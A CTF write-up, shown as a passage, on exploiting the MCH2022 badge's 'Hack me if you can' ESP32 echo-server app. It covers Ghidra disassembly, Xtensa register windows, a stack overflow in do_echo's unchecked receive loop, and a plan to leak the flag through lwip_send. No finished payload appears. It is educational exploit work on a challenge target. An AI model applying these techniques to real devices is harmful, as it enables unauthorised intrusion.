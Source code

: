 ==============================================================
Hack you 'cause I can: Solving the MCH2022 badge CTF challenge
==============================================================

a writeup by Joachim "dojoe" Fenkes (github_) (twitter_)

.. _github: https://github.com/dojoe
.. _twitter: https://twitter.com/dop3j0e

.. contents:: Table of contents
   :depth: 2

Introduction
============

At the MCH2022_ hacker camp, there was a great CTF_ with interesting challenges, and one of the challenges involved the `camp badge`_, which is built around an ESP32_ chip as its main processor. The badge operating system allows folks to build apps for the ESP32 which can be launched from the main menu, and the badge came pre-loaded with a bunch of such apps.

One of these apps is called `"Hack me if you can"`__, and the CTF challenge was to find a bug in that app which could be exploited over WiFi to extract the flag from the badge. To make sure that people wouldn't simply extract the flag some other way, most badges contained a dummy flag, and only a few select badges (closely guarded by the folks in the CTF tent) would contain the real flag. This way, folks could develop a remote exploit using their own badge and, once they had a working exploit, visit the CTF tent to retrieve the flag.

`Our team`_ was one of only two teams to solve the challenge during the camp and retrieve the flag, which both makes me very proud and morally compels me to write up our findings. So here's the story of how we got from knowing absolutely fuck-all to a delicious flag.

.. note::
  This is a post-mortem writeup where I am documenting the happy path, omitting most of the many false starts and dead ends we encountered. If anything in here makes you think "Jeez, how did they come up with *that*?", you're probably reading the straight-line version of what used to be a winding road :)

.. _MCH2022: https://mch2022.org/
.. _CTF: https://ctf.mch2022.org/home
.. _camp badge: https://wiki.mch2022.org/Badge
.. _ESP32: https://en.wikipedia.org/wiki/ESP32
.. __: https://ctf.mch2022.org/challenge?id=40
.. _Our team: https://ctf.mch2022.org/user?id=20


Materials
=========

Before we begin, let's gather some materials. Even if you don't have an MCH badge at hand you'll be able to follow parts of this writeup with them.

* Ghidra_ for reverse engineering - I used version 10.1.4 for this challenge in case it matters
* esptool_ for converting ELF files into ESP .bin files
* mch2022-tools_ for uploading apps to the badge
* hackmeifyoucan.tgz_ - the ELF variant of the app, including debug symbols
* The `Xtensa ISA reference`_ for understanding the core

  * `Mirrored from here`__ for preservation

* The `Ghidra Xtensa`_ plugin for disassembling the binary
  
  * The 0.3 release on GitHub is ancient and won't work with recent Ghidra versions. You'll have to build the latest HEAD from source or use `this pre-built release`__ if you choose to trust my partner in crime DoubleJ who did the build.

.. _Ghidra: https://ghidra-sre.org/
.. _esptool: https://github.com/espressif/esptool
.. _mch2022-tools: https://github.com/badgeteam/mch2022-tools/archive/refs/heads/master.zip
.. _hackmeifyoucan.tgz: hackmeifyoucan.tgz
.. _Xtensa ISA reference: xtensa.pdf
.. __: https://0x04.net/~mwk/doc/xtensa.pdf
.. _Ghidra Xtensa: https://github.com/yath/ghidra-xtensa
.. __: ghidra-xtensa-e307f72.zip


Feeling our way around
======================

Okay, now that we have all our materials at hand, let's take a look at the app!

Behavior
--------

After starting, the app will show a "Starting service..." screen for a while, followed by the application main screen:

.. image:: appscreen.jpg

In addition, the kite LEDs on the badge will turn red, green or yellow depending on the detected configuration:

* Blue: The app needs to be updated
* Green: The app is up and running but this badge only contains a dummy flag.
* Red: The app is up and running and this badge contains the actual flag.

Well, it says there's a service. It would be rude not to take it up on that offer:

.. image:: addressbar.png

The app displays a screen asking whether I want to accept the connection from my laptop - that's promising. Let's accept.

...huh. Firefox displays a blank page, and according to the badge display, the app has crashed. It also says ``check console for more details`` ...there's a console?

We just learned a few things:

.. highlights::
  1. The app is probably not an HTTP server.
  2. Whatever it serves, it's got a crashy bug that might be exploitable!
  3. The badge developers seem to have implemented a pretty kickass crash recovery system.
  4. There's apparently a "console" of some sort.

That latter part is intriguing - let's find that console!


Console
-------

The presence of a serial console is a little hidden on the Hardware_ page of the `Badge documentation`_ but hey, just plugging the badge in and looking at your shiny new USB devices would have easily tipped you off anyway so ehh.

There's actually two USB serial consoles on the badge. One leads to the ESP, the other to the FPGA. Myself, I didn't know that until five minutes ago, I just picked the one that spewed data when I booted the badge :) Speaking of spewing data; do set a baud rate of 115200 when you connect, anything else will yield UART encrypted text (aka gibberish).

Launching the ``Hack me if you can`` app with the USB console connected yields a *metric fuckton* of information, along with this::

  I (4408) hack-me-if-you-can: Socket bound 192.168.178.50:1337
  I (4408) hack-me-if-you-can: No flag found in hackmeifyoucan:flag NVS storage...
  I (4438) hack-me-if-you-can: Flag set to: flag{not_a_real_flag}

Neat! So we learned some more things!

.. highlights::
  4. (updated) There's a serial USB console which is a veritable *trove* of information!
  5. The difference between a badge that contains a flag and one that doesn't seems to be a record in some non-volatile storage, and if that record is not present the app will use a dummy flag value.
  6. As a direct result from 5, we can conjecture that badges with a flag are running the *exact same binary* as we are, which would be great as we would be able to transfer our exploit without having to guess at differences between app variants.

We did not, however, figure out which protocol the app is serving yet. Let's crack open the binary, maybe it will speak to us.

.. _Hardware: https://www.badge.team/docs/badges/mch2022/hardware/
.. _Badge documentation: https://www.badge.team/docs/badges/mch2022/


Disassembly
-----------

So let's load the .elf file conveniently provided by the app developers into Ghidra. The app uses the Xtensa LX6 core built into the ESP32 chip, and fresh out of the box Ghidra doesn't know jack about that architecture, so we have to install the Xtensa plugin first. Installation is simple: Just extract the ``Xtensa`` directory from the zip into the ``Ghidra/Processors`` subdirectory of where you installed Ghidra, then restart Ghidra if you had it open.

Now you can create a new project for this challenge, import ``hack_me_if_you_can.elf`` with default settings, load it into the Code Browser and run the default set of analysis steps.

You will find that Ghidra already knows an awful lot about the target program - structs, symbols, locations, sections etcetera. This is thanks to the debug symbols conveniently left in the .elf file by the developers. Apparently they don't want us to spend hours wading through incomprehensible disassembly and following red herrings and instead to focus on the actual bug and exploitation thereof. Thank you for that <3

You will also quickly find that the decompiler produces only gibberish. The Xtensa plugin provides disassembler support but no working decompiler support [1]_, so we'll have to work with the disassembly LIKE WE DID IN THE OLD DAYS *<strokes grey beard>*. Best expand that disassembly pane and switch the right pane to something other than the decompiler, it'll only confuse the heck out of us.

Xtensa assembly demystified
~~~~~~~~~~~~~~~~~~~~~~~~~~~

Xtensa assembly is pretty easy to read if you're already acquainted with other RISC architectures like ARM or PowerPC. The instruction mnemonics are intuitive and there are no special registers whatsoever, just a GPR file of registers ``a0..a15``. Looking at the assembly, it seems like a1 is used as the stack pointer - the ``entry a1, <value>`` at the beginning of functions is a dead giveaway. Let's keep that in mind for later.

The one thing that caused me some confusion at first was that there are different flavors of some instructions, such as ``mov`` and ``mov.n`` - do those .n instructions have special meaning? A bit of browsing the ISA reference quickly reveals that no, they do exactly the same. Xtensa just has a special "narrow" encoding for some instructions that come up a lot in average code. Normal Xtensa instructions are three bytes, whereas the narrow forms only take up two bytes, conserving some code space. So ``mov.n`` is simply the narrow variant of ``mov`` and when reading the assembly we can treat it exactly the same as ``mov``.

First impressions
~~~~~~~~~~~~~~~~~

With that out of the way, let's take a look at the disassembly.

.. image:: appheader.png

Nice app header that nobody cares about. Where's the main function? Since we have debug symbols, we can just search the symbol tree for ``main`` and quickly find two symbols of interest, ``main_task`` and ``app_main``. No pure ``main``.

Looking at ``main_task``, we quickly find that it seems to end up deferring to ``app_main``::

                        LAB_4016f6ac       XREF[2]:     4016f690(j), 4016f698(j)  
  4016f6ac 81 e8 81        l32r       a8,->app_main   = 400d7918
  4016f6af e0 08 00        callx8     a8

So I guess ``app_main`` will be more interesting::

  400d791b 65 54 00        call8      bsp_init
  400d791e 65 5f 00        call8      bsp_rp2040_init
  400d7921 e5 db ff        call8      show_startup_screen
  400d7924 e5 e8 ff        call8      start_service
  400d7927 a2 a0 00        movi       a10,0x0
  400d792a 25 96 ff        call8      show_main_screen

That *does* look interesting! Looks like this is the main app code, and the way it calls a bunch of functions in sequence matches the app behavior. Thanks again to the devs for leaving the debug symbols in there and not enabling optimizations like aggressive inlining which would have greatly obfuscated the program structure.

Since we're currently interested in what protocol the app serves, let's dive into the ``start_service`` function::

  [ ... some initialization ... ]
  400d7839 c1 56 e3        l32r       a12,DAT_400d0594                 = 00001000h
  400d783c b1 bd e3        l32r       a11,PTR_s_echo_server_400d0730   = 3f4037e0
  400d783f a1 bd e3        l32r       a10,->echo_server                = 400d7448
  400d7842 25 e9 b4        call8      xTaskCreatePinnedToCore
  [ ... more initialization ... ]

``echo_server``? Well shiver me timbers, might this be implementing a simple echo server that parrots back anything you send its way?

Let's update what we know, shall we?

.. highlights::
  1. (updated) The app seems to be serving a simple "echo server".

  7. Register ``a1`` seems to be used as the stack pointer.

Let's try talking to that server again now and see how it behaves.

.. _fork by Ebiroll: https://github.com/Ebiroll/ghidra-xtensa
.. _pending PR: https://github.com/Ebiroll/ghidra-xtensa/pull/2
.. _this pre-built release: ghidra-xtensa-f7bae2c.zip

Talking to the echo server
--------------------------

Let's talk to the server directly then:

  ``nc 192.168.178.50 1337``

The app asks us for permission to connect, we accept and netcat is connected!

  ``Connection accepted!``

Likewise, the app screen has changed to

  ``Handeling[sic!] connected client from: <my laptop's IP>``

Neat! Let's talk to it::

  asdf
  asdf

Ugh, I hate it when someone does that!
::

  Stop imitating me!
  Stop imitating me!

ARRRGGH!
::

  asdfglkjhasdflköajsdflkjahsdfglkjahsd
  asdfglkjhasdflköajsdflkjahsdfgl�
  �?9@

...now wait a minute... that's not quite what I typed!
::

  asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf
  asdfasdfasdfasdfasdfasdfasdfasdf�
  �?9@?asdfasdf

...hmmmmm...
::

  asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf
  
...never gets a response, nor does anything I type after it. At least not over the network. The debug console however *does* give us a response::

  I (1346018) hack-me-if-you-can: Received 49 bytes
  Guru Meditation Error: Core  0 panic'ed (LoadProhibited). Exception was unhandled.

  Core  0 register dump:
  PC      : 0x400df38d  PS      : 0x00060730  A0      : 0x800d731e  A1      : 0x3ffbf150
  A2      : 0x00000002  A3      : 0xffffffff  A4      : 0x00000001  A5      : 0x41900000
  A6      : 0x40a00000  A7      : 0x43480000  A8      : 0x00000001  A9      : 0x3ffbf1b0
  A10     : 0x00000001  A11     : 0x00000000  A12     : 0x3ffb40f0  A13     : 0x00000001
  A14     : 0x3ffbf2c0  A15     : 0x43480000  SAR     : 0x0000000e  EXCCAUSE: 0x0000001c
  EXCVADDR: 0x0000000f  LBEG    : 0x4000c2e0  LEND    : 0x4000c2f6  LCOUNT  : 0xffffffff

  Backtrace:0x400df38a:0x3ffbf150 0x400d731b:0x3ffbf1f0 0x400d739e:0x3ffbf210
  0x400d739e:0x3ffbf230 0x400d739e:0x3ffbf250 0x400d739e:0x3ffbf270
  0x400d739e:0x3ffbf290 0x400d739e:0x3ffbf2b0 0x400d739e:0x3ffbf2d0
  0x400d7670:0x3ffbf2f0 0x4008e055:0x3ffbf410

  ELF file SHA256: b1e3592d04801c8c

  Entering gdb stub now.
  $T0b#e6

Looks like we successfully crashed the app, and for good this time - no crash handler to come to our rescue and fall back to the main menu. But instead we got a pretty nice register dump and backtrace!

We can't be sure yet, but the way how the echo string is being corrupted beyond a certain length, and the fact that increasing its length even further completely crashes the program, smells suspiciously like stack corruption, which would be a perfect entry point for an exploit!

So let's summarize our new findings:

.. highlights::
  1. (updated) The app is a simple echo server which accepts connections via TCP and returns any string sent through the connection back to the client verbatim.
  2. (updated) The echo server seems to have a problem with requests beyond a certain length; judging by the corruption/crash it is likely that this is caused by overflowing a buffer on the stack.

  8. In case of a fatal exception we get a register dump and backtrace on the USB console.
  9. There even seems to be a gdb stub available; let's keep that in the back of our mind just in case.


The Game Plan
=============

It looks like we're done with our first exploration of the target; let's summarize our findings so far:

1. The app is a simple echo server which accepts connections via TCP and returns any string sent through the connection back to the client verbatim.
2. The echo server seems to have a problem with requests beyond a certain length; judging by the corruption/crash it is likely that this is caused by overflowing a buffer on the stack.
3. The badge developers seem to have implemented a pretty kickass crash recovery system.
4. There's a serial USB console which is a veritable *trove* of information!
5. The difference between a badge that contains a flag and one that doesn't seems to be a record in some non-volatile storage, and if that record is not present the app will use a dummy flag value.
6. As a direct result from 5, we can conjecture that badges with a flag are running the *exact same binary* as we are, which would be great as we would be able to transfer our exploit without having to guess at differences between app variants.
7. Register ``a1`` seems to be used as the stack pointer.
8. In case of a fatal exception we get a register dump and backtrace on the USB console.
9. There even seems to be a gdb stub available.

We actually know enough now to come up with a more targeted plan of attack:

* Figure out where the flag we're looking for resides in memory
* Understand the nature of the (suspected) stack overflow
* Figure out a way to exploit it in a way that we can extract the flag over the network


Where's the flag?
=================

This one might prove pretty easy since the app is helpfully providing us with debug output around its efforts to determine the flag.

.. image:: flagstring.png

Well that was easy! That's the fake flag that's being set if the badge doesn't contain a real flag.
::

                        s_flag{not_a_real_flag}_3f4038c0                XREF[1]:     400d0750(*)  
  3f4038c0 66 6c 61        ds         "flag{not_a_real_flag}"
            67 7b 6e 
            6f 74 5f 

Let's follow that xref back to the ``start_service`` function:
::

  400d78e3 2c 7c           movi.n     a12,0x27
  400d78e5 b1 9a e3        l32r       a11,PTR_s_flag{not_a_real_flag}_400d0750         = 3f4038c0
  400d78e8 a1 98 e3        l32r       a10,->flag                                       = 3ffb5358
  400d78eb 81 9b e3        l32r       a8,DAT_400d0758                                  = 400015D4h
  400d78ee e0 08 00        callx8     a8

Without even looking at the disassembly, I'm going to bet you that the function indirectly called here is ``memcpy``. This call occurs in a code block that is executed after a call to ``nvs_get_str`` returns a nonzero value, and that same code block contains a call to ``esp_log_write`` with a data pointer to something that looks suspiciously like a string::

                        DAT_3f403874
  3f403874 1b              ??         1Bh
  3f403875 5b              ??         5Bh    [
  3f403876 30              ??         30h    0
  3f403877 3b              ??         3Bh    ;
  3f403878 33              ??         33h    3
  3f403879 32              ??         32h    2
  3f40387a 6d              ??         6Dh    m
  3f40387b 49              ??         49h    I
  3f40387c 20              ??         20h     
  3f40387d 28              ??         28h    (
  3f40387e 25              ??         25h    %
  3f40387f 75              ??         75h    u
  3f403880 29              ??         29h    )

Let's help Ghidra along and convert it to a string (right click -> Data -> TerminatedCString)::

                        s__[0;32mI_(%u)_%s:_No_flag_found_i_3f403874
  3f403874 1b 5b 30        ds         1Bh,"[0;32mI (%u) %s: No flag found in hackmei
            3b 33 32 
            6d 49 20 

Well, there's our console trace again! Looks like this code block is the "if no flag in NVS" path. The code block above it seems to be the "if there's a flag in NVS" path, and it's got another suspicious call::

  400d789e a5 bb ba        call8      malloc
  400d78a1 3d 0a           mov.n      a3,a10
  400d78a3 d2 c1 14        addi       a13,a1,0x14
  400d78a6 cd 0a           mov.n      a12,a10
  400d78a8 b1 a6 e3        l32r       a11,PTR_s_flag_400d0740   = 3f403830
  400d78ab a2 21 04        l32i       a10,a1,0x10=>Stack[0x10]
  400d78ae 65 67 16        call8      nvs_get_str
  400d78b1 21 a5 e3        l32r       a2,->flag                 = 3ffb5358
  400d78b4 2c 6c           movi.n     a12,0x26
  400d78b6 bd 03           mov.n      a11,a3
  400d78b8 ad 02           mov.n      a10,a2
  400d78ba 81 a7 e3        l32r       a8,memcpy                 = 400015D4h
  400d78bd e0 08 00        callx8     a8

Note that I renamed our pointer from above to ``memcpy`` to make its meaning clear. So we're apparently loading the flag string from NVS into a ``malloc``ed bit of memory, and then ``memcpy`` the value over to a static location; the same location that we copied the fake flag to in the other code block. I bet you that's the flag location we should extract. I agree, the name ``flag`` could have tipped me off early on but where's the fun in that?

So we conclude: **The flag sits at 0x3ffb5358!**


Reversing the echo server
=========================

Next up let's reverse the echo server and find out why it's crashing. Given how the ``start_service`` routine sets up ``echo_server`` as the main thread function for the service thread let us start there::

  400d747c 65 c9 29        call8      lwip_socket
  [ ... ]
  400d74c4 25 19 2a        call8      lwip_setsockopt
  [ ... ]
  400d74d4 25 74 29        call8      lwip_bind
  [ ... ]
  400d7535 e5 85 29        call8      lwip_listen

Hmm, looks like this app is using a TCP implementation called ``lwip`` (guessing that means LightWeight IP) and its API looks like the standard Unix socket API [2]_. That makes reversing a lot easier since I can transfer my knowledge of that API to this unknown target.

Just scrolling through the disassembly some more, we see a bunch more ``lwip`` calls... ``accept``, ``setsockopt``, then a call to ``ask_permission`` (gee i wonder what *that* does), ``send`` and finally ``do_echo_recursive``::

  400d766a b2 a0 09        movi       a11,0x9
  400d766d 20 a2 20        mov        a10,pvParameters
  400d7670 a5 d1 ff        call8      do_echo_recursive

I bet that last one is the actual echo implementation, but why ``recursive``?
::

                        **************************************************************
                        *                          FUNCTION                          *
                        **************************************************************
                        _Bool __stdcall do_echo_recursive(int sock, int count)
        _Bool             a2:1           <RETURN>
        int               a2:4           sock
        int               a3:4           count
                        do_echo_recursive                               XREF[4]:     Entry Point(*), 400d739e(*), 
                                                                                    echo_server:400d7670(*), 
                                                                                    .debug_frame::00004de0(*)  
  400d738c 36 41 00        entry      a1,0x20
  400d738f ad 02           mov.n      a10,sock
  400d7391 cc 73           bnez.n     count,LAB_400d739c
  400d7393 65 f9 ff        call8      do_echo
  400d7396 c6 01 00        j          LAB_400d73a1
  400d7399 00              ??         00h
  400d739a 00              ??         00h
  400d739b 00              ??         00h
                        LAB_400d739c                                    XREF[1]:     400d7391(j)  
  400d739c 0b b3           addi.n     a11,count,-0x1
  400d739e e5 fe ff        call8      do_echo_recursive
                        LAB_400d73a1                                    XREF[1]:     400d7396(j)  
  400d73a1 2d 0a           mov.n      sock,a10
  400d73a3 1d f0           retw.n

Huh, so this little function appears to be calling itself recursively a bunch of times (depending on the ``count`` parameter) and then eventually call ``do_echo``. Looking at the call site it seems like one of the parameters is 9; that's probably our ``count``.

.. admonition:: Wait what?!

  Why is ``count`` being loaded into ``a11`` when the function expects it in ``a3``?!

I guess it's time to introduce one of the most unusual features of the Xtensa architecture.


Details of the Xtensa architecture you never wanted to learn but now have to
============================================================================

Windowed registers
------------------

The Xtensa architecture optionally implements something called "windowed registers", where the core has a physical register bank that is larger than the architected 16 GPRs. At any time, a contiguous range of 16 of these physical registers is visible to code; if the window exceeds the end of the physical register bank it wraps around to the beginning.

Each ``call`` instruction optionally shifts this register window by four, eight or twelve registers - that's why there are four flavors of ``call``: ``call0``, ``call4``, ``call8`` and ``call12``. When, say, a function called by ``call8`` is entered, ``a8`` becomes ``a0``, ``a9`` becomes ``a1`` and so forth. The previous ``a0..a7`` become inaccessible, and new ``a8..a15`` are exposed at the top end of the register range. Upon return from the function, the process is reversed and the previous ``a0..a7`` become visible again.

This method effectively turns the physical register bank into a very fast kind of stack; in the ``call8`` example the caller can be sure that its ``a0..a7`` will be preserved, and the callee does not have to worry about saving off any registers before using them. This saves a lot of stack access and improves execution performance.

This is also why the ``count`` parameter is loaded into ``a11`` - inside ``do_echo_recursive`` it magically turns into ``a3`` because ``call8`` is used.

.. admonition:: Wait what?!

  That's nice and all, but that "register stack" is not infinite - won't we eventually start overwriting saved register values?

That's a very correct observation and we need to do something about this! Of course this register windowing is not a panacea; eventually we'll still have to save register values off to the stack. But the windowing mechanism will defer these stack accesses to a later point, and as long as the call stack only swings back and forth by 2-3 calls (which is usually the case in hot parts of a program) no stack access will be necessary at all.

Still, any register *might* eventually have to be saved, so *each function must provide a save area for its registers on the stack*. This is why, for example, ``do_echo_recursive`` reserves 32 bytes of stack even though it doesn't have any locals - it uses ``call8`` to call other functions and thus must reserve space for 8 registers to be saved.

This is why ``do_echo_recursive`` exists. It makes sure to rotate the register window enough times that we can be *certain* a significant amount of registers has been actually saved to the stack by the time we're inside ``do_echo``, for us to overwrite. Once again, the app developers are actively helping us out <3


The ``call`` - ``entry`` worksplit
----------------------------------

Finally, there is one more detail we have to talk about: A callee does not have to know nor care whether it's been called by ``call4``, ``call8`` or any other call instruction - it must be agnostic of the amount of registers saved by the caller.

For this reason, it is not the ``callN`` instruction which moves the register window, but the ``entry`` instruction at the beginning of the callee. The amount of registers to move is communicated to it by the ``callN`` instruction in the topmost two bits of ``a0``, with the remaining bits containing the return address. Likewise, the ``retw`` instruction will use these top two bits to determine by how much to move the window back.

This has several direct consequences which will become important later:

1. A return "address" on the stack might *not* look like an actual program address at first glance.
2. When constructing our own stack for an exploit we must be mindful of this.
3. Calls must stay within the same 1GiB segment of address space since the topmost two bits of the PC cannot be modified by the ``callN`` instructions.

For more details about windowed registers, I recommend reading the `Xtensa ISA reference`_, chapter 4.7.1.


Stack layout
------------

The theory lesson ain't over yet though. Sorry not sorry. We still have to understand how the stack is laid out *exactly*, and it's not entirely trivial.

See, Xtensa has another quirk up its sleeve: Backtracing the stack must be possible without knowledge of the specific routines, so the return address and the pointer to the previous stack frame must be at the same location relative to the current stack pointer regardless of the size of the stack frame.

To realize this, Tensilica came up with the following stack layout:

* The return address and stack pointer for the current function are in ``a0`` and ``a1`` respectively [3]_.
* ``r0..r3`` will be saved to a "base save area" which is part of the current stack frame - located *below* the current stack pointer. This area is the same size regardless of ``callN`` instruction used and thus provides a reliable way of accessing ``r0`` and ``r1``.
* Any other registers will be saved to an "extra save area" which is part of the caller's stack frame - only the caller knows the required size after all. It can be accessed through the recovered value of ``r1``.

Because that's totally not confusing at all, here's an image to illustrate the concept, pulled straight from the ISA reference. I found myself going back to this figure many times.

.. image:: stackframe.png


Coffee Break
============

Now might be a good time to go grab a beverage of your liking and let the previous chapters sink in while pondering your life choices. It's never too late to take up a career in herding sheep or woodworking, y'know? Just sayin'.

Ah, who am I kidding? Take your time to finish your drink before we move on though. Hydration is important, as is time to let things settle.

Go on, `I'll wait`__.

.. __: https://www.youtube.com/watch?v=Ur1XtSyjbxM


Reversing the echo server, part two: Electric Boogaloo
======================================================

Awright, now with that architecture knowledge under our belt and a freshly caffeinated brain, let's finally dive into the ``do_echo`` function and see if we can spot the bug!
::

                        **************************************************************
                        *                          FUNCTION                          *
                        **************************************************************
                        _Bool __stdcall do_echo(int sock)
        _Bool             a2:1           <RETURN>
        int               a2:4           sock
        char[32]          Stack[-0x40]   small_buf
                        do_echo
  400d7328 36 81 00        entry      a1,0x40

This already tells us a lot about the function's stack layout, given what we just learned:

* The function reserves 64 bytes on the stack. We can see below that it's using ``call8`` calls throughout, so 32 of those bytes will be reserved for register save areas, split into the base save area right below the stack pointer (``a1 - 16`` through ``a1``) and the extended save area (``a1 + 32`` through ``a1 + 48``).
* The space in between those save areas (``a1`` through ``a1 + 32``) makes up the locals of ``do_echo`` - which the debug information conveniently informs us is a single buffer of 32 bytes.

Hmm, a 32 byte buffer on the stack, and previously the echo server was behaving oddly when we sent it more than 32 bytes of stuff at once... I betcha that's the buffer that overflows! Let's see where it's being used::

      400d733d 3d 01           mov.n      a3,a1
   /- 400d733f 46 00 00        j          LAB_400d7344
   |                        LAB_400d7342
  /-->400d7342 3d 0c           mov.n      a3,a12
  ||                        LAB_400d7344
  |\->400d7344 0c 0d           movi.n     a13,0x0
  |   400d7346 c2 a0 01        movi       a12,0x1
  |   400d7349 bd 03           mov.n      a11,a3
  |   400d734b 20 a2 20        mov        a10,sock
  |   400d734e 25 ba 29        call8      lwip_recv
  |/- 400d7351 96 3a 03        bltz       a10,LAB_400d7388
  ||  400d7354 1b c3           addi.n     a12,a3,0x1
  ||  400d7356 32 03 00        l8ui       a3=>Stack[0x0],a3,0x0
  \+- 400d7359 66 93 e5        bnei       a3,0xa,LAB_400d7342
   v

Transcribed, this loop does the following:

1. Initialize ``a3`` to point to the start of the buffer (at ``a1`` since that's the start of our locals and the buffer is our only local).
2. Call ``lwip_recv(sock, a3, 1, 0)``, i.e. attempt to receive one byte into the buffer at location ``a3``.
3. If ``lwip_recv`` fails, abort (jump target outside the snippet).
4. Store the location of the next byte in ``r12``.
5. Load the byte we just received and compare to 0x0a (i.e. a newline).
6. If it's not a newline, repeat from step 2 with ``a3`` pointing to the next byte in the buffer; else fall through.

You immediately noticed the absence of a check for buffer overflow, didn't you? This code will happily receive bytes until it encounters a newline, overwriting the entire stack if necessary. There's our buffer overflow - **we have full control over the stack leading up to ``do_echo``.**

Before we race to craft an exploit though, let's continue looking at ``do_echo`` and see what else it can tell us::

  400d735c 10 3c c0        sub        a3,a12,a1
  400d735f 41 d5 e4        l32r       a4,->TAG
  400d7362 58 04           l32i.n     a5,a4=>TAG,0x0
  400d7364 25 b8 b9        call8      esp_log_timestamp
  400d7367 fd 03           mov.n      a15,a3
  400d7369 e8 04           l32i.n     a14,a4=>TAG,0x0
  400d736b dd 0a           mov.n      a13,a10
  400d736d c1 d2 e4        l32r       a12,PTR_s__[0;32mI_(%u)_%s:_Received_%i_by_400
                                          "\e[0;32mI (%u) %s: Received %i bytes\e[0m\n"
  400d7370 bd 05           mov.n      a11,a5
  400d7372 0c 3a           movi.n     a10,0x3
  400d7374 a5 aa b9        call8      esp_log_write

Ah, so it determines the amount of bytes received (by subtracting ``a1`` from ``a12``) and then logs them to the console. I remember seeing that log earlier.
::

  400d7377 0c 0d           movi.n     a13,0x0
  400d7379 cd 03           mov.n      a12,a3
  400d737b bd 01           mov.n      a11,a1
  400d737d ad 02           mov.n      a10,sock
  400d737f e5 d0 29        call8      lwip_send

And then it sends the entire buffer back to the client using ``lwip_send``. Let's keep this in mind - wouldn't it be ace if we could use the same function in our exploit to send back the flag?

Let's summarize, what do we have and not have?

.. highlights::

  We have:

  1. A way to overwrite the stack from ``do_echo``'s frame upwards.
  2. A function we can call to send arbitrary memory contents back to the client.
  3. A scratch pad on the stack (the 32 byte buffer) we have direct control over.

  We don't have:

  1. A way to read the stack
  
Given the use of ``call8`` everywhere and the tall chain of recursive stack frames conveniently laid out for us, this means we have direct control over ``r0..r7``. Taking into account the moving register window, across two consecutive stack frames we even have control over *all* registers.

The lack of a stack read primitive means we have to construct the entire stack by hand, or figure out how to attach a debugger and dump the stack. I chose the former, but for that we'll need the value of the stack pointer during ``do_echo`` execution.

Luckily we have a convenient method of extracting that value already in the app!


Dude, where's my stack?!
========================

The devs were so friendly and put a debug trace right into ``do_echo`` that we can use to extract the value of any register, including the stack pointer. Basically it just requires patching a single instruction:

  ``400d7367 fd 03           mov.n      a15,a3``

into

  ``mov.n   a15,a1``

We don't even have to know the instruction encoding, Ghidra can do that for us. Move to the instruction and hit ``Ctrl-Shift-G`` for "Patch instruction" (yes yes, the assembler has not been tested yadda yadda, it's ok, we know what we're doing), change the register and you won't even have to *actually* patch the instruction in your database because Ghidra already tells you the encoding:

.. image:: insnpatch.png

